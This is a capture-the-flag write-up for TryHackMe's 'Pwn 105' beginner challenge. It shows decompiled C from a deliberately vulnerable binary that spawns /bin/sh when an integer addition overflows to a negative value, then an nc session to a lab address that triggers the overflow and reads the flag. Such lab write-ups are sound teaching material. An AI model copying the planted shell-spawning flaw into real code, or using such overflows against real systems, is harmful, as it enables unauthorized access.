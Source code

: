```yaml
---
author: pl4int3xt
layout: post
title: Pwn 105 - Tryhackme
date: '2024-01-18'
description: "Beginner level binary exploitation challenges from Tryhackme"
categories: [Pwn 101]
tags: [binary exploitation, Tryhackme ]
---
```


Let's download the binary and decompile it with ghidra. In `main()` we have `local_14 = local_18 + local_1c;`. The code checks if `local_14 < 0` the it pops a shell

```c
void main(void){
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts("-------=[ BAD INTEGERS ]=-------");
  puts("|-< Enter two numbers to add >-|\n");
  printf("]>> ");
  __isoc99_scanf(&DAT_0010216f,&local_1c);
  printf("]>> ");
  __isoc99_scanf(&DAT_0010216f,&local_18);
  local_14 = local_18 + local_1c;
  if (((int)local_1c < 0) || ((int)local_18 < 0)) {
    printf("\n[o.O] Hmmm... that was a Good try!\n",(ulong)local_1c,(ulong)local_18,(ulong)local_14)
    ;
  }
  else if ((int)local_14 < 0) {
    printf("\n[*] C: %d",(ulong)local_14);
    puts("\n[*] Popped Shell\n[*] Switching to interactive mode");
    system("/bin/sh");
  }
  else {
    printf("\n[*] ADDING %d + %d",(ulong)local_1c,(ulong)local_18);
    printf("\n[*] RESULT: %d\n",(ulong)local_14);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Basically `local_14` is the value of the added numbers and so we need to make sure they return a value that is less than 0

> In C, the `int` data type is commonly used for representing integers. The `int` type has a finite range, typically from INT_MIN to INT_MAX. If the result of an addition, subtraction, multiplication, or any other operation exceeds this range, integer overflow occurs.

We need to perform a simple `int` overflow. we know the `int` range is `-2147483647` to `2147483647`. so if we add a value to the highest `int` the sum will go to the opposite side and become a negative.

```shell
2147483647 = 01111111111111111111111111111111

01111111111111111111111111111111 + 1 = 10000000000000000000000000000000
```

Let's try that and cat the flag

```shell
pl4int3xt@archlinux ~/D/p/pwn105> nc 10.10.122.55 9005
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2147483647
]>> 1

[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
ls
flag.txt
pwn105
pwn105.c
cat flag.txt
THM{REDACTED ..}
```